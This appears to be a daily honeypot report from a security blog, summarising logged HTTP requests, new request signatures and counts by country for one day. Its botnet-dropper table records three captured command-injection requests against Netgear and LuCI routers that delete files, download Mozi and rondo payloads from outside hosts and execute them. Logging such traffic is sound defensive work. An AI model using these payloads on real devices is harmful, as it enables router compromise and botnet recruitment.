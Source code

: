 ```yaml
---
title: "Report: 2025-08-19 "
date: 2025-08-19
desciption: "Report: 2025-08-19" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-19 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 16 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 826 requests were recorded during the day, originating from 3 different countries, with a peak of 458 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| DE               | Germany            |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                       |
|:---------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 1.70.13.22     | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://1.70.13.22:38117/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0     |
| 117.11.140.215 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://117.11.140.215:58211/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 45.156.87.165  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=%60wget%20-qO-%20http%3A%2F%2F74.194.191.52%2Frondo.zqq.sh%7Csh%60 HTTP/1.1                              |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                          |
|----:|----------------------:|:-----------------------------------------------------------------|
|  20 |                     5 | POST /cn/cmd HTTP/1.1                                            |
| 114 |                     2 | \x10\x00\x00\x00\x01\x00\x00\x00\x01\x00\x00\x00\x01\x00\x00\x00 |
| 133 |                     1 | \x00\x0E8\xD0s\xCA\xDDKk\xF4b\x00\x00\x00\x00\x00                |
| 198 |                     1 | GET /api/me HTTP/1.1                                             |
| 278 |                     1 | \x00\x0E8\xC8MiT/\xB4\x98\x14\x00\x00\x00\x00\x00                |
| 283 |                     1 | GET /OdinHttpCall1755631302 HTTP/1.1                             |
| 284 |                     1 | GET /Odin/http/call1755631302 HTTP/1.1                           |
| 285 |                     1 | GET /odinhttpcall1755631302 HTTP/1.1                             |
| 316 |                     1 | \x00\x0E\x08\x08\x02\xDE%\x957\xBB?\x00\x00\x00\x00\x00          |
| 317 |                     1 | \x00\x0E8\x08\x02\xDE%\x957\xBB?\x00\x00\x00\x00\x00             |
| 318 |                     1 | \x00\x0E\x08n\xFB\xB8\xD0\xF8p\x96c\x00\x00\x00\x00\x00          |
| 319 |                     1 | \x00\x0E8n\xFB\xB8\xD0\xF8p\x96c\x00\x00\x00\x00\x00             |
| 320 |                     1 | \x00\x0E\x08\x03pHAP)QQ\x00\x00\x00\x00\x00                      |
| 321 |                     1 | \x00\x0E8\x03pHAP)QQ\x00\x00\x00\x00\x00                         |
| 322 |                     1 | \x00\x0E\x08\xC4->\xCA\xCB\x17\x8E\x90\x00\x00\x00\x00\x00       |
| 323 |                     1 | \x00\x0E8\xC4->\xCA\xCB\x17\x8E\x90\x00\x00\x00\x00\x00          |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   458 | US                 |
|  1 |                    82 | GB                 |
|  2 |                    46 | AR                 |
|  3 |                    46 | IR                 |
|  4 |                    43 | DE                 |
|  5 |                    22 | NL                 |
|  6 |                    19 | SC                 |
|  7 |                    18 | BG                 |
|  8 |                    12 | CN                 |
|  9 |                    12 | HK                 |
| 10 |                    11 | SA                 |
| 11 |                     9 | ZA                 |
| 12 |                     8 | IN                 |
| 13 |                     6 | HU                 |
| 14 |                     6 | LT                 |
| 15 |                     3 | TR                 |
| 16 |                     2 | BE                 |
| 17 |                     2 | AE                 |
| 18 |                     2 | SG                 |
| 19 |                     2 | VN                 |
| 20 |                     2 | PH                 |
| 21 |                     2 | LU                 |
| 22 |                     2 | CH                 |
| 23 |                     2 | PL                 |
| 24 |                     1 | KR                 |
| 25 |                     1 | MY                 |
| 26 |                     1 | PA                 |
| 27 |                     1 | EE                 |
| 28 |                     1 | RU                 |
| 29 |                     1 | ID                 |
| 30 |                     1 | CA                 |
| 31 |                     1 | BR                 |
| 32 |                     1 | CZ                 |
